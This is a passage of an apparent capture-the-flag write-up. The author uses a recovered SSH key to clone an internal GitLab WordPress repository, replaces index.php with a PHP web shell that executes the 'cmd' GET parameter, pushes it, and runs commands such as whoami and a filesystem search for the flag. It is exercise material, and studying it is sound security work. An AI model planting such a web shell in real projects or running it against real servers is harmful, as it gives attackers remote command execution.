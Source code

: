 ```bash
grinchum-land:~$ echo "9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g" >> ~/.ssh/id_rsa
grinchum-land:~$ echo "AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot" >> ~/.ssh/id_rsa
grinchum-land:~$ echo "PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==" >> ~/.ssh/id_rsa
grinchum-land:~$ echo "-----END OPENSSH PRIVATE KEY-----" >> ~/.ssh/id_rsa
grinchum-land:~$ chmod 600 ~/.ssh/id_rsa
grinchum-land:~$ git clone git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git
The authenticity of host 'gitlab.flag.net.internal (172.18.0.150)' can t be established.
ED25519 key fingerprint is SHA256:jW9axa8onAWH+31D5iHA2BYliy2AfsFNaqomfCzb2vg.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'gitlab.flag.net.internal' (ED25519) to the list of known hosts.
Cloning into 'wordpress.flag.net.internal'...
remote: Enumerating objects: 10195, done.
remote: Total 10195 (delta 0), reused 0 (delta 0), pack-reused 10195
Receiving objects: 100% (10195/10195), 36.49 MiB | 20.88 MiB/s, done.
Resolving deltas: 100% (1799/1799), done.
Updating files: 100% (9320/9320), done.
```
I wrote a short PHP code that would execute commands received over the `cmd` GET parameter:
```php
<?php
	$output=null;
	$retval=null;
	exec ($_GET["cmd"], $output, $retval);
	echo "OUTPUT --> ";
	print_r($output);
	echo "\nRETVAL --> $retval";
?>
```
Then I substituted the original `index.php` with a one-liner version of that php script, committed and verified it was working:
```bash
grinchum-land:~/wordpress.flag.net.internal$ echo '<?php $output=null; $retval=null; exec ($_GET["cmd"], $output, $retval); echo "OUTPUT --> "; print_r($output); echo "\nRETVAL --> $retval"; ?>' > index.php
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.email "you@example.com"
grinchum-land:~/wordpress.flag.net.internal$ git config --global user.name "Your Name"
grinchum-land:~/wordpress.flag.net.internal$ git add --all && git commit -m "$(date)" && git push
[main 7507011] Sun Jan 15 14:13:42 GMT 2023
 1 file changed, 1 insertion(+), 17 deletions(-)
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 2 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 373 bytes | 373.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
To gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git
   37b5d57..7507011  main -> main
grinchum-land:~/wordpress.flag.net.internal$ wget "wordpress.flag.net.internal?cmd=whoami" -q -O -
OUTPUT --> Array
(
	[0] => www-data
)
```
I then just literally searched for `flag` maybe because the word repeated quite a lot, found and read it:
```bash
grinchum-land:~/wordpress.flag.net.internal$ wget "wordpress.flag.net.internal?cmd=find /* 2>/dev/null | grep flag" -q -O -
OUTPUT --> Array
(
```